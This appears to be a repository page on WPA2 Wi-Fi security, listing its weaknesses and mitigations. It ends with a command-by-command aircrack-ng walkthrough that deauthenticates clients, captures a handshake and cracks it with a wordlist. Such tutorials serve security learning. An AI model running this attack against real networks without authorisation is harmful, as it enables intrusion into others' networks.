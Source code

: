 WPA2 (Wi-Fi Protected Access 2) is a security protocol used to protect wireless networks. It was introduced as an improvement over the original WPA, addressing some of the vulnerabilities present in WPA.

WPA2 uses a stronger encryption algorithm called AES (Advanced Encryption Standard) instead of the TKIP (Temporal Key Integrity Protocol) used in WPA. This change significantly enhances the security of the wireless network.

#### Features
1. **Brute-Force Attacks:** Attackers may still attempt to guess the WPA2 pre-shared key (PSK) by trying all possible combinations until the correct key is found. A strong and complex passphrase can mitigate this risk.
2. **Dictionary Attacks:** Similar to brute-force attacks, dictionary attacks use a list of common passwords to try to guess the WPA2 key. Again, using a strong passphrase can help prevent this.
3. **KRACK Attack:** In 2017, a significant vulnerability called the Key Reinstallation Attack (KRACK) was discovered in WPA2. It allowed attackers to intercept and potentially manipulate data transmitted over the network. This vulnerability was in the WPA2 protocol itself and not in specific implementations.
4. **Rogue Access Points:** If an attacker sets up a rogue access point with the same SSID as a legitimate one, devices may unknowingly connect to the rogue AP, giving the attacker access to the network.
5. **Credential Sharing:** Weak password practices, such as sharing credentials with unauthorized individuals, can compromise the security of a WPA2 network.

#### Mitigation
1. **Use Strong and Unique Passwords:** Choose a long, complex, and unique pre-shared key (PSK) for your WPA2 network. Avoid using common words, phrases, or easily guessable information. Include a mix of uppercase and lowercase letters, numbers, and special characters.
2. **Enable WPA3 (if available):** If your devices and router support WPA3, consider upgrading to this newer and more secure Wi-Fi security protocol. WPA3 addresses some of the vulnerabilities found in WPA2 and provides additional security features.
3. **Regularly Update Firmware:** Keep your router's firmware up to date. Manufacturers release updates to patch known vulnerabilities and improve security. Check your router's manufacturer website or the router's administration interface for firmware updates.
4. **Disable WPS:** Wi-Fi Protected Setup (WPS) can be a potential vulnerability, so it's a good idea to disable it in your router's settings. WPS has known security issues, and disabling it prevents attackers from exploiting these weaknesses.
5. **Enable MAC Address Filtering:** Enable MAC address filtering on your router. This feature allows you to specify which devices are allowed to connect to the network based on their unique MAC addresses. While this is not foolproof, it adds an extra layer of security.
6. **Use a Guest Network:** If your router supports it, create a separate guest network for visitors. This isolates guest devices from your main network, protecting your sensitive data and devices.
7. **Regularly Review Connected Devices:** Periodically check the list of connected devices in your router's administration interface to ensure that only authorized devices are connected.
8. **Be Wary of Rogue Access Points:** Be cautious when connecting to public Wi-Fi networks, as attackers might set up rogue access points to intercept data. Whenever possible, use a Virtual Private Network (VPN) to encrypt your internet traffic.
9. **Educate Users:** Educate all users on your network about the importance of strong passwords and general Wi-Fi security practices. Discourage sharing Wi-Fi credentials with others and promote safe internet habits.
10. **Monitor Network Activity:** Use network monitoring tools to keep an eye on your network for any suspicious activities or unauthorized access attempts.

### Attack Vector
1. **Connect the Wireless Adaptor to the computer**
2. **Connect it to the virtual machine**
3. **Open it in Monitor Mode**
```bash
$ iwconfig
$ airmon-ng check kill
$ airmon-ng start wlan0
```
4. **Collect Data**
```bash
$ airodump-ng wlan0mon
$ airodump-ng -c 6 --bssid <Victim_MAC_Addr> -w capture wlan0mon
```
5. **Deauth Attack to capture the Handshake**
```bash
$ aireplay-ng -0 1 -a <Victim_MAC_Addr> -c <Station_MAC_Addr> wlan0mon
```
6. **Crack the Handshake to capture the wireless network password**
```bash
aircrack-ng -w wordlist.txt -b <Victim_Mac_Addr> capture-01.cap
```